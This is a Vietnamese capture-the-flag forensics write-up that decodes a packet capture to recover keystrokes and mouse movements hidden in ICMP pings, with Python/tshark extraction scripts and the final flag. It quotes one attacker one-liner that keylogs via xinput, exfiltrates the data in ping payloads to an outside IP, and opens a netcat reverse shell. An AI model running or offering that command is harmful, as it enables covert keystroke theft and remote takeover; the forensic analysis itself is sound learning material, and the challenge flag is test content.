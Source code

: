 Mở file pcap ra và phân tích protocol hierarchy, ta thấy lượng lớn ICMP:
![image](https://github.com/NVex0/uWU/assets/113530029/61e34c0e-e5b4-4132-b396-fdbc82f38d5d)

Xem theo tcp stream, ta để ý server packet có đoạn có command như này:
`xinput test 8 | while read -r line; do hex_data=$(echo "$line" | xxd -p -c 10); echo "$hex_data" | while read -r data; do ping -c 1 -p "$data" 192.168.253.27; done; done > /dev/null 2>&1 & nc 192.168.253.27 5349 -e /bin/bash`
![image](https://github.com/NVex0/uWU/assets/113530029/011f5000-1a8e-4134-bbbc-be649a70cee2)

Cụ thể là nó lấy mỗi 10 bytes data từ xinput 8 (keyboard), sau đó ping tới 192.168.253.27 bằng data đó. Bây giờ ta tiến hành extract data và dịch lại đầu vào thôi :v 

Mình viết script sau để làm việc đó:
```
import os
import sys

keymap = {9: '<ESC>', 67: '<F1>', 68: '<F2>', 69: '<F3>', 70: '<F4>', 71: '<F5>', 72: '<F6>', 73: '<F7>', 74: '<F8>', 75: '<F9>', 76: '<F10>', 95: '<F11>', 96: '<F12>', 118: '<INS>', 119: '<DEL>', 49: '`', 10: '1', 11: '2', 12: '3', 13: '4', 14: '5', 15: '6', 16: '7', 17: '8', 18: '9', 19: '0', 20: '-', 21: '=', 22: '<BACKSPACE>', 23: '<TAB>', 24: 'q', 25: 'w', 26: 'e', 27: 'r', 28: 't', 29: 'y', 30: 'u', 31: 'i', 32: 'o', 33: 'p', 34: '[', 35: ']', 51: '\\', 66: '<CAPSLOCK>', 38: 'a', 39: 's', 40: 'd', 41: 'f', 42: 'g', 43: 'h', 44: 'j', 45: 'k', 46: 'l', 47: ';', 48: "'", 36: '<ENTER>', 52: 'z', 53: 'x', 54: 'c', 55: 'v', 56: 'b', 57: 'n', 58: 'm', 59: ',', 60: '.', 61: '/', 65: '<SPACE>', 111: '<UPARROW>', 113: '<LEFTARROW>', 116: '<DOWNARROW>', 114: '<RIGHTARROW>', 110: '<HOME>', 115: '<END>', 112: '<PGUP>', 117: '<PGDN>', 77: '<NUMLOCK>', 106: '<NUM/>', 63: '<NUM*>', 82: '<NUM->', 79: '<NUM7>', 80: '<NUM8>', 81: '<NUM9>', 83: '<NUM4>', 84: '<NUM5>', 85: '<NUM6>', 86: '<NUM+>', 87: '<NUM1>', 88: '<NUM2>', 89: '<NUM3>', 90: '<NUM0>', 91: '<NUM.>', 104: '<NUMENTER>', 134: '<RWIN>', 133: '<LWIN>'}

infile = sys.argv[1]
outfile = "hex.data"


os.system("tshark -nr %s -Y 'ip.src == 192.168.25.135 && icmp' -T fields -e data.data > %s" %((infile, outfile)))

#Set toogle để xử lí đầu ra.
toogle = True
with open("hex.data", "r") as f:
    data = f.readlines()
    for i in data:
        #Extract 10 bytes ra, packet 48 bytes nên cứ chọn chỗ nào đủ data là được :v, ở đây mình chọn từ 24 -> 44.
        out = bytes.fromhex(i[24:44]).decode('ASCII')
        if not toogle:
            z = out.split("\n")
            index = int(z[0][2:])
            if index in keymap:
            #Nếu index = 65, tức <SPACE> thì print luôn nhìn cho dễ :v
                if index == 65:
                    print(" ")
                else:
                    print(keymap[index], end = "")
        #Vì nó capture được 2 event: press và release. Vì thế nên ta phải xử lí để không bị trùng data.
        if "press" in out:
            toogle = False
        else:
            toogle = True
```
Run code trên kèm file pcap `python extract.py ActionCapture.pcapng`, ta được đầu ra như này:

![image](https://github.com/NVex0/uWU/assets/113530029/b441926e-eb85-42c4-bb29-a1caa01fda31)

Decimal flag, ném lên cyberchef và ta được part 1:

![image](https://github.com/NVex0/uWU/assets/113530029/23a0ce73-89c9-494f-a8ec-4a7aedc1febf)



Ok, tiếp part 2. Nhìn vào tcp stream 1, ta thấy được cách send data tương tự tcp stream 0, chỉ khác là xinput id 10 là chuột. Event của chuột sẽ gồm toạ độ x, y của cursor. Vẫn extract ra và dịch nó ra thôi :v 
```
with open("hex.data", "r") as f:
    data = f.readlines()
    for i in data:
        i = bytes.fromhex(i[24:44]).decode('ASCII')
        print(i, end = "")
```
Run script này vào save file `txt`:
`python tmp.py > txt`

File txt này chứa toàn bộ motion mà ta extract ra được, tiếp theo là dựng lại đường của cursor dựa trên toạ độ thôi :v 

Extract ra với script `Mickey.py`:
```
import matplotlib.pyplot as plt

x = []
y = []

with open("txt", "r") as f:
    data = f.readlines()
    for i in data:
        if "key" in i:
            continue
        elif "motion" in i:
            tmp = i.split(" ")
            x.append(int(tmp[1][5:]))
            y.append(int(tmp[2][5:]))
    plt.plot(x, y)
    plt.show()
```

Chạy file `Mickey,py`, được kết quả sau:

![image](https://github.com/NVex0/uWU/assets/113530029/93bd8a39-5fd4-40d4-be05-2d6487c433ae)

Flip nó lại theo chiều dọc, được part 2 của flag:
![Screenshot (3950)](https://github.com/NVex0/uWU/assets/113530029/7f4d1dad-d377-42b5-9233-e047b0296fc9)


FLAG : `KCSC{g00d_luck_have_fuN1337}`
